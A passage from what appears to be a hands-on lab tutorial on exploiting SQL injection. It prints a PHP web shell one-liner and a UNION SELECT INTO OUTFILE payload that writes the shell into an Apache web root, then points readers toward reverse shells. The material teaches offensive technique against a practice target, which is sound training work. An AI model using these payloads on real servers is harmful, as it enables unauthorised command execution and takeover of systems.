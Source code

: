 This would create "/tmp/file" which contained only the number 1. 

So that is file writing sorted! What should we use for our webshell? If you google "PHP webshell one liner" you will 
come across this one:

https://gist.github.com/sente/4dbb2b7bdda2647ba80b

```php
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```

This is beautifully simple. The $_REQUEST collection allows you to access URL parameters by name. This script uses a 
parameter called "cmd" which, if it is present in the URL will be executed on the OS through the "system" function.

Now you know how to save a file, and the contents of the file that we need. The final hurdle is finding the correct 
folder to write content to. The "webroot" folder is where the web server loads content from which makes it accessible by
a URL. 

All HTTP server technologies have a default web root. Some have different ones on different operating systems. It is
also entirely possible for administrators to customise the default which makes it harder to exploit. The approach should 
always be:

1) Try to learn the technology stack used by the target. Review HTTP responses to check for the "Server:" header.
2) Pay attention to any verbose error messages. They frequently include the location on disk where the site is running. 
3) If you are targeting a product which has online support, you can generally find the answer in documentation.

In our case we know the target is running: Apache, on Ubuntu. That means the default path is ```/var/www/html```. We are
assuming that the administrator has not changed the default.

Finally, here is how to use the UNION select statement to write a webshell.

```
' UNION SELECT null,null,'<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' INTO OUTFILE '/var/www/html/shell.php' -- 
```

Tl;dr - make the webshell appear as a string in the UNION select and then write it into a file.

To access our webshell we now need to browse to the root of our site at "/shell.php".

## Web shell to reverse shell

The server has at least PHP and BASH available. Google "reverse shell one liners" and try them out here.

If you get a shell I'd love to share the joy if you want to drop a screenshot to me on Twitter @Cornerpirate.

Thanks for playing along.